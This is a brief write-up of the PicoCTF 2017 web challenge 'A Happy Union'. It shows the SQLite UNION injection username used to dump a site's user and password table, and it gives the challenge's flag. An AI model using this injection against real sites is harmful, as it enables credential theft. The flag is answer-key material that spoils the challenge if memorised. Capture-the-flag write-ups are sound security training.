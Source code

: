 # PicoCTF_2017: A Happy Union

**Category:** Web Exploitation
**Points:** 110
**Description:**

>I really need access to [website](http://shell2017.picoctf.com:23598/), but I forgot my password and there is no reset. Can you help? I like lite sql :)

**Hint:**

>A SQL union allows a single query to select values from multiples tables.

## Write-up
SQLite injection tested here. Create a account with username `' or user like '' UNION SELECT '1', user, pass FROM users --`, password not important.

Therefore, the flag is `flag{union?_why_not_onion_a69464d4869c743e26c08df8686e4003}`.